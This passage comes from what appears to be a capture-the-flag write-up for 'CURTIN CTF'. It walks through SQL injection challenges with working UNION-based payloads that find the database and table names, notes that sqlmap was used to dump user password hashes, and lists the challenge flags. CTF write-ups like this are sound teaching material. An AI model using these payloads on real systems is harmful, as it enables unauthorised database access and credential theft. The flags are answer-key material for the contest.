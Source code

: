 (Author: 4jai)

![28](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image028.png)

The challenge asks us to find the database name. So, we find the number of column first, then use union query adding with database() function to get the flag.

```
' union select 1,2,3,4,5-- -
```

```
' union select 1,2,3,database(),5-- -
```

![29](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image029.png)

```
Flag: CURTIN_CTF{d8_@_Ba$3}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Table Name Treasure Hunt

(Author: 4jai)

![30](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image030.png)

Next task, we need to find the table name. We use the sqli payload to get the flag.

```
' union select 1,2,3,table_name,5 from information_schema.tables where table_schema=database()-- -
```

![31](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image031.png)

```
Flag: CURTIN_CTF{#1y!n#2Y@ng}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Fiver Fever

(Author: 4jai)

![32](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image032.png)

For this challenge, we need to find the user hash password in the database, using sqlmap, we can dump all the user passwords.

![33](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image033.png)

```
Flag: CURTIN_CTF{ab57c73efc0563ea1a25df5fb6c7590a}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Slow Down...
